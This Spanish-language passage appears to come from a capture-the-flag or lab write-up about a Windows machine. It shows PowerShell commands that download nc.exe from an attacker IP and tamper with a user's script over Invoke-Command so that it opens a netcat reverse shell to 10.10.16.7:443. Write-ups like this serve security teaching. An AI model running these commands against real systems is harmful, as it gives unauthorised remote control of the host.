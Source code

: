 El objetivo será intentar modificar el script para que ejecute otra instrucción en vez de la indicada (Get-Volume), en este caso, haremos que ejecute un "nc" para entablarnos una Reverse Shell a nuestro equipo. Subiremos el binario de _**nc.exe**_ en (C:\Utils).

```powershell
IWR -Uri http://10.10.16.7/nc.exe -Outfile C:\Utils\nc.exe
```

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Lo primero será reemplazar a través de la función _**-Replace**_ el contenido y a través de _**Set-Content**_ trataremos de sobreescribir el archivo existente por el contenido nuevo modificado.

Verificamos que se ha sobreescrito correctamente el script, y ahora mismo lo que realiza este script es ejecutar la el binario de _**nc.exe**_ que hemos subido anteriormente en (C:\Utils\nc.exe).

{% code overflow="wrap" %}
```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { ((Get-Content C:\Users\imonks\Desktop\wm.ps1 -Raw) -Replace 'Get-Volume','cmd.exe /c C:\Utils\nc.exe -e cmd 10.10.16.7 443' ) }

Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { ((Get-Content C:\Users\imonks\Desktop\wm.ps1 -Raw) -Replace 'Get-Volume','cmd.exe /c C:\Utils\nc.exe -e cmd 10.10.16.7 443') | Set-Content -Path C:\Users\imonks\Desktop\wm.ps1 }

Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { type C:\Users\imonks\Desktop\wm.ps1 }
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>
